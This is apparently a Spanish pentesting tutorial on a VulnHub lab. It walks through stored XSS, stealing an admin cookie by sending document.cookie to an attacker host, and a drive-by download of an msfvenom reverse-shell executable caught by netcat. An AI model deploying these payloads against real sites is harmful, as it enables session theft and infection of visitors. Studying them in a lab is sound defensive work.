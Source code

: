 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=435&lines=Ataque+XSS+y+secuestro+de+Cookies"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD XSS</ins></h3>

Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).

#### ¿Cómo se inyecta el script malicioso?

Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.

### Tipos de ataques de Croo-Site Scripting

Existen tres tipos de vectores de XSS:

**XSS indirecto** (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.

**XSS directo** (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.

**XSS basado en DOM**: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/ataqueXSS.png">
</p>

</br>

#### Cookies

Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada. 

Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.

<h1 align="center"></h1>

### DETECTAR DETECTAR VULNERABILIDAD XSS

Como muestra de ejemplo, descargué una máquina de vulnhub llamada "<a href="https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/">*PENTESTER LAB: XSS AND MYSQL*"</a> para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

![1](https://user-images.githubusercontent.com/75953873/187095720-5b148555-7d80-40b8-95b5-0d301acaf744.png)

Servidor web: `http://192.168.25.135`

Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
```
nmap -p80 --script http-stored-xss.nse <TARGET>
```
![2](https://user-images.githubusercontent.com/75953873/187103485-4175545b-bcf0-49a0-9398-3ea6b2502d44.png)

También podemos hacer uso de herramientas como <a href="https://github.com/s0md3v/XSStrike">XSStrike</a>, <a href="https://github.com/pwn0sec/PwnXSS">PwnXSS</a>, <a href="https://github.com/epsylon/xsser">xsser</a>, entre otras existentes.

![3](https://user-images.githubusercontent.com/75953873/187104187-dc163b7c-8143-4ba5-be3a-cd23cf677eaf.png)

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
```javascript

<script>alert("Vulnerable a XSS");</script>
```
![4](https://user-images.githubusercontent.com/75953873/187104531-69d35d55-df37-417c-9db1-cc1302f1155a.png)

Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

![5](https://user-images.githubusercontent.com/75953873/187104588-eaaeca8f-ac55-4567-a058-fe27c894e108.png)

<h1 align="center"></h1>

### SECUESTRO DE COOKIES

Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es dónde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
```javascript

<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>
```
La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es dónde se va a escribir y almacenar la cookie.

![6](https://user-images.githubusercontent.com/75953873/187104762-5a305614-8366-4d1e-90b3-64790bb5ebe9.png)

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
```
Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
```
![7](https://user-images.githubusercontent.com/75953873/187104875-9ea540b9-0fd4-464f-b23e-c5c769cd215d.png)

Cookie: `u61dlmmqrsrbt612lmu4tmh0o5`

Después de capturar la cookie, descargan la extensión "<a href="https://addons.mozilla.org/es/firefox/addon/a-cookie-manager/">*Cookie Manager*</a>" del navegador Firefox y creamos una nueva cookie. En value pegan la cookie y en la URL el sitio web:

![8](https://user-images.githubusercontent.com/75953873/187105199-31eadfc0-724c-45c5-9722-90b0d6788a43.png)

Recargamos la página y le damos a "*Admin*" y como verán, iniciamos sesión en la cuenta del administrador sin necesidad de aportar ninguna credencial.

![9](https://user-images.githubusercontent.com/75953873/187105257-1168179e-7513-4ee1-b32e-aeb81d7db482.png)

<h1 align="center"></h1>

### OBTENER CONTROL DE LA MÁQUINA DEL USUARIO

Aquí es dónde viene lo peligroso, no solamente podemos hackear el sitio web, sino también cargar un software o código malicioso para que cualquier usuario que visite el sitio web descargue malware y se infecte. Para eso es necesario utilizar otro script más malicioso aún:

```javascript

<script>var software = document.createElement('a');
software.href='http://192.168.1.9/documento.exe';
software.download= '';
document.body.appendChild(software);
software.click();</script>
```
![10](https://user-images.githubusercontent.com/75953873/187105472-dfb6d4b4-1c4b-44a9-a4cb-d53f32d0b16f.png)

En el código anterior se crea una variable llamada "**software**" en dónde se le indica que redireccione al usuario a la página (nuestra IP local) y descargue el programa malicioso (*documento.exe*). Posteriormente hay que crear el archivo ejecutable malicioso con msfvenom, **LHOST** es su IP local y el **LPORT** es el puerto a escucha de conexiones, al final especifiqué la ruta en el directorio raíz del servidor local y finalmente el nombre del archivo:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.9 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/documento.exe
```
![11](https://user-images.githubusercontent.com/75953873/187105687-338198bd-24a1-4f44-9a48-328709eaca42.png)

Abrir servidor local HTTP:
```
sudo service apache2 start
```

Cualquier usuario que entre a la página web se le preguntará si desea descargar el documento y en caso de que alguien lo descargue y ejecute, deberíamos de tener una terminal a escucha de conexiones por el puerto 4444 con Netcat o Python:
```
Netcat: nc -lvnp 4444
Python3: python3 -m http.server 4444
```
![12](https://user-images.githubusercontent.com/75953873/187105838-e5554a83-9f27-4315-8d42-aad2eb07cd98.png)

Finalmente el usuario ejecuta el documento "legítimo" y obtendremos acceso al sistema operativo:

![13](https://user-images.githubusercontent.com/75953873/187105843-e32707fa-df18-40a9-a392-b5559fe94bbd.png)

<h1 align="center"></h1>

</br>

#### MITIGAR VULNERABILIDAD

Por parte del administrador del sitio web se le aconseja bloquear determinados caracteres que pueden ser utilizados para introducir código malicioso, validar y verificar todos los datos de entrada que el usuario pueda ingresar como texto; así como la longitud de la misma. Implementar un WAF que impida los ataques de XSS y monitoreé el tráfico HTTP, codificar los datos de salida para los usuarios. Por parte de los usuarios es aconsejable que mantengan antivirus y navegadores actualizados. Para los usuarios de Firefox y or ejemplo, existe una extensión llamada "**"


**Lista de payloads XSS:** https://github.com/payloadbox/xss-payload-list



#### ~R3LI4NT~
